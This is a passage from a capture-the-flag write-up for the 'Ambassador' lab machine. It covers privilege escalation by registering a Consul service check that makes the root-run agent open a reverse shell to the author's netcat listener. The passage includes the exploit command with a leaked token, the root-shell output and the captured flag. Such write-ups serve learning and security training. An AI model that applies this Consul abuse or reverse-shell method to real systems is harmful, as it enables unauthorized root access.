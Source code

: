 The consul documentation outlines the service check register API here: [Service - Agent - HTTP API | Consul | HashiCorp Developer](https://developer.hashicorp.com/consul/api-docs/agent/service#check)

Basically, given our consul token we obtained via git, we can register a service check on the consul agent that will run a periodic script.  In this case, we run a reverse shell connecting back out to our locally running netcat instance.

Let's try it out:

```bash
python3 consule_rce.py --lhost 10.10.14.48 --lport 3322 --rhost 127.0.0.1 --rport 8500 --token bb03b43b-1d81-d62b-24b5-39540ee469b5

[+] Request sent successfully, check your listener

```

```bash
$nc -lvnp 3322
listening on [any] 3322 ...
connect to [10.10.14.48] from (UNKNOWN) [10.10.11.183] 60742
bash: cannot set terminal process group (3858): Inappropriate ioctl for device
bash: no job control in this shell
root@ambassador:/# cat /root/root.txt
cat /root/root.txt
db59b71542a934db27b28462577febcd
```

As expected, the consul agent, running as root, spawns a shell connecting back to my listening netcat instance giving me a root shell.

And with that, we have the root flag! Woo!

## Conclusion

The most difficult part for this challenge was the privilege escalation -- luckily consul seemed like the first (and only?) obvious process running as root that could be exploitable -- so it was the clear first choice for investigating privesc.   Uncovering the bash script was easy, but I stumbled a little before finding the git logs to get the token I could use with the API.  After this, registering a "service" to give me a reverse shell was quite easy.

A fun VM, but perhaps easier than I expected for Medium difficulty.  I'm interested to see how challenging the next one is.  I had not thought to find and check the logs of github repositories on compromised machines before, so this has been added to my arsenal of things to look out for and enumerate.

The temptation often is to break out LinPEAS and just scan, but getting a 'feel' for a server -- what does it appear to be used for? what story does it tell? and what kind of things should I be looking for? -- and enumerating on a case by case basis seems to be a nicer way to narrow down the possibilities without being overwhelmed by all the potentials of enumerating many things at once.
